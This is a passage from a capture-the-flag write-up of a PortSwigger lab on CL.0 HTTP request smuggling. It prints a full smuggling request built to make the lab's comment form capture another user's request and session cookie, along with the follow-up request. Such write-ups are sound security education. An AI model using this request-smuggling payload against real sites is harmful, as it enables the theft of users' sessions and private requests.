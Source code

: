 ![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-20/images/Pasted%20image%2020230226143201.png)

Burp Suite HTTP history:

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-20/images/Pasted%20image%2020230226143221.png)

When we clicked the "Post Comment" button, it'll send a POST request to `/en/post/comment`, with parameter `csrf`, `postId`, `comment`, `name`, `email`, `website`, and cookie `session`, `_lab_analytics`.

***That being said, we can leverage CL.0 HTTP request smuggling (and client-side desync) to capture users' requests!***

**In Burp Suite Repeater, we can see the following CL.0 HTTP request:**

**Attack request:**
```http
POST / HTTP/1.1
Host: 0a4e001d034e42f3c08d2ca2007200bf.h1-web-security-academy.net
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 30

POST /en/post/comment HTTP/1.1
Host: 0a4e001d034e42f3c08d2ca2007200bf.h1-web-security-academy.net
Cookie: session=E4JOQg3Yw8TCcboDgbxPSXniXUhi3xPV; _lab_analytics=byZLPF2FM2lpAH83Zz10U7gegQLjKUOJ5EqrlWt6lJSDmy1MspH8ivSU2LDwwlBnQyc4KKombwOqK47ap4jiLqNvYPXKRYhK2TvoyMHnw0HQw8boBEskuySc50lCaIr0K2oOceavIp2n7qn6YKkLoAtfdcsvl7IMwNbJnpZXuK2cIdQ6VXMo6NNQU9AdPMPwJg3tEV0pPMNvg5LNiDDkng8HIOaZDWXrZdKN638WfavVs3dqnxIXalYJZ9qunper
Content-Length: 300
Content-Type: x-www-form-urlencoded
Connection: keep-alive

csrf=ad2JMc779PxfzUrbiVP2FIz4QrGCCwt3&postId=2&name=tester&email=test%40test.com&website=&comment=
```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-20/images/Pasted%20image%2020230226143940.png)

> Note: The number of bytes that you try to capture must be longer than the body of your `POST /en/post/comment` request prefix, but shorter than the follow-up request.

**Normal request:**
```http
GET /capturer HTTP/1.1
Host: 0a4e001d034e42f3c08d2ca2007200bf.h1-web-security-academy.net
```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-20/images/Pasted%20image%2020230226143947.png)

**Send those requests in group:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-20/images/Pasted%20image%2020230226144244.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-20/images/Pasted%20image%2020230226144249.png)
